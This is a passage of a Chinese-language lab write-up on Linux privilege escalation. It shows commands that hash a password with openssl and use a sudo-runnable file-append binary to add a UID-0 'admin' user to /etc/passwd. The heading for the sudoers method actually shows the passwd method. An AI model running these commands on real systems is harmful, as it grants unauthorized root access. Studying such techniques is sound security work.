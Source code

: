 ![image-20210706005807314](http://cdn.mxrblog.cn/image-20210706005807314.png)

- 通过观察，test.py是由test文件编译过来的，作用是把一个文件的内容追加到第二个文件中

### 提权

***[两种提权方式连接](https://www.shuzhiduo.com/A/gGdXme3Ez4/)***

- 网上有两种提权方式，一种是往/etc/sudoers里面添加内容，让用户可以以root的权限去执行命令，另一种则是添加一个新的用户到/etc/passwd，然后新添加的用户登陆



- **第一种方法：往/etc/sudoers里面添加内容，让用户可以以root的权限去执行命令**

- 这里用Openssl来对密码进行加密,在进行编辑输入到/tmp/pwd

```
openssl passwd -1 -salt 'abcdefg' 123456 
得到密码
$1$abcdefg$a3UbImglR4PCA3x7OvwMX.输入到/tmp/pwd
echo 'admin:$1$abcdefg$a3UbImglR4PCA3x7OvwMX.:0:0::/root:/bin/bash' > /tmp/pwd
使用脚本吸入passwd文件中
sudo /opt/devstuff/dist/test/test /tmp/pwd /etc/passwd
```

![image-20210706015440393](http://cdn.mxrblog.cn/image-20210706015440393.png)

![image-20210706020239118](http://cdn.mxrblog.cn/image-20210706020239118.png)

![image-20210706020216962](http://cdn.mxrblog.cn/image-20210706020216962.png)





## 总结

- [openssl passwd](https://www.cnblogs.com/f-ck-need-u/p/6089869.html)
- 向/etc/passwd文件中添加用户和密码提权
- 向/etc/sudoers 更改已有用户权限

